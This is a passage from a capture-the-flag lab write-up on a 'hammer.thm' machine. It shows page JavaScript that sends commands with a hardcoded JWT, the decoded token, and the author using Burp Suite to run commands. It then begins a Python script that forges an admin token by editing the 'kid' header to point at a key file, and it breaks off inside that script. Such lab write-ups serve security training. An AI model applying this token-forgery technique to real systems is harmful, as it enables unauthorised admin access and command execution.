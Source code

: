 ```javascript
        var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzU2MzYxNzYyLCJleHAiOjE3NTYzNjUzNjIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.4R0Dh7r-JChtUBcimMGDQhhyPpBtbWcje_D-EX-dGlE';

        // Make an AJAX call to the server to execute the command
        $.ajax({
            url: 'execute_command.php',
            method: 'POST',
            data: JSON.stringify({
                command: command
            }),
            contentType: 'application/json',
            headers: {
                'Authorization': 'Bearer ' + jwtToken
            },
            success: function(response) {
                $('#commandOutput').text(response.output || response.error);
            },
            error: function() {
                $('#commandOutput').text('Error executing command.');
            }
        });
    });
});
```

Putting the jwt into `https://www.jwt.io/`:
```shell
Header:
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}
Payload:
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1756361762,
  "exp": 1756365362,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "user"
  }
}
```

I intercept the POST request to `/execute_command.php` and put it the in the repeater tab in burpsuite. The only command I can easily run is `ls`.

All listed files I have seen except one: `redacted.key`

To forge a jwt with admin permissions a can edit the `kid` header to contain the right filepath and add a line to accept the contents of the key:
```python
import jwt

secret_key = "redacted"

header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/redacted.key"
```